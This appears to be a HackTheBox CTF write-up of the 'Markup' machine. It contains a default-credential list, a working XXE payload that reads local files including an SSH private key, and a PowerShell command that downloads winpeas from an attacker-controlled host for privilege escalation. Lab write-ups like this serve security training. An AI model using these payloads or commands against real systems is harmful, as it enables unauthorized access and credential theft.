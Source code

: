 ```yaml
---
title: "HackTheBox - Markup"
author: Nasrallah
description: ""
date: 2022-07-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, burpsuite, xml, xxe]
img_path: /assets/img/hackthebox/machines/markup
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Markup](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running a website vulnerable to XXE, we exploit that and get an ssh private key. We connect to the target and run `winpeas` which finds an administrator's password.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.182.252
Host is up (0.10s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

There are 3 open port,22,80 and 433.

## Web

Let's navigate to the webserver on port 80.

![](1.png)

We got a login page, We can try submit some default credentials like the following:

```
admin:admin
administrator:administrator
admin:administrator
admin:password
administrator:password
```

We managed to login with `admin:password`

![](2.png)

Going through the website's different pages, we find that we can interact with the website in the `order` page.

![](3.png)

## Burp

Let's fill the input fields and intercept the request using `burp suite` and send it to repeater.

![](4.png)

The website uses `XML` for the orders, let's check if this is vulnerable to XEE.

>XEE: or XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.


# **Foothold**

Since this is a windows machine, we can test the vulnerability with the following payload:

```xml
<?xml version = "1.0"?>
    <!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///c:/windows/win.ini'>]>
    <order>
        <quantity>
            1
        </quantity>
        <item>
            &xxe;
        </item>
        <address>
            test
        </address>
    </order>
```

Let's edit the request in repeater and send it.

![](5.png)

Great! We can read the `win.ini` file, but what now.

Searching through all windows files can take a very long time, so let's search in the website for anything that might help us.

![](7.png)

Found username `daniel`, let's see if there is an ssh key inside his home directory. `C:\\Users\daniel\.ssh\id_rsa`

![](6.png)

Great! We found ssh private key of daniel, let's copy it to our machine, give it the right permissions and connect with it.

![](8.png)


# **Privilege Escalation**

Let's check ou current privileges on the machine with `whoami /priv`

![](9.png)

Nothing really useful.

I uploaded a copy of `winpeas.exe` to the target using the following command:

```shell
powershell -c wget http://{Attacker_IP}/winpeas.exe -o winpeas.exe
```

After running winpeas, it found Administrator's credentials

![](10.png)

We can use ssh to login as Administrator.

![](11.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).